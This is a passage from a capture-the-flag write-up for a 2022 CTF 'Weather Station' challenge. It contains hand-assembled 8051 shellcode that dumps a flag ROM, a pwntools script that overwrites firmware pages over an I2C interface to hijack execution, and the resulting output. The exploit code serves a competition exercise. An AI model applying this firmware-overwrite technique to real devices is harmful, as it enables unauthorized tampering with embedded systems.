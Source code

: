 Now we have the ability to hijack the firmware program and redirect it to our own code, we need to actually write a program that reads the FLAGROM and dumps it to stdout. I spent some time looking for `8051` assemblers and I found three, one I never figured out how to build because it kept throwing errors during `make` and the other two I could not find the download links. In the end I decided to just write the machine code myself because it was pretty simple.
```x86asm
db 0x78, 0x00         ; mov R0, #0
wait_for_ready:
db 0xE5, 0xF3         ; mov A, SERIAL_WRITE_READY
db 0x60, 0xFC         ; jz wait_for_ready
db 0xE8               ; mov A, R0
db 0x08               ; inc R0
db 0xF5, 0xEE         ; mov FLAGROM_ADDR, A
db 0xE5, 0xEF         ; mov A, FLAGROM_DATA
db 0xF5, 0xF2         ; mov SERIAL_OUT, A
db 0x80, 0xF2         ; sjmp wait_for_ready
```
finally putting it all together:
```python
from pwn import *
io = remote("weather.2022.ctfcompetition.com", 1337)
print(io.recvline())
print(io.recvline())

def overwrite(page, mask):
    io.sendline(b'w 111137 ' + str(5 + len(mask)).encode() +  b' ' + str(page).encode() + b' 165 90 165 90 ' + b' '.join([str(b).encode() for b in mask]))
    print(io.recvline())

payload = [0, 0]
data = open("payload.bin", "rb").read()
for b in data:
    payload.append(0xff & ~b)

ret_mask = [
0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0,
0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0,
0, 0, 0, 0, 0, 0, 0, 0, 0, 32, 165, 128,
]

overwrite(40, payload)
overwrite(3, ret_mask)
io.sendline(b'r 111137 64')

for _ in range(4):
    print(io.recv(timeout=2))
```
```
> python3 prog.py
[+] Opening connection to weather.2022.ctfcompetition.com on port 1337: Done
b'== proof-of-work: disabled ==\n'
b'Weather Station\n'
b'? i2c status: transaction completed / ready\n'
b'? Weather Station\n'
b'? '
b'C'
```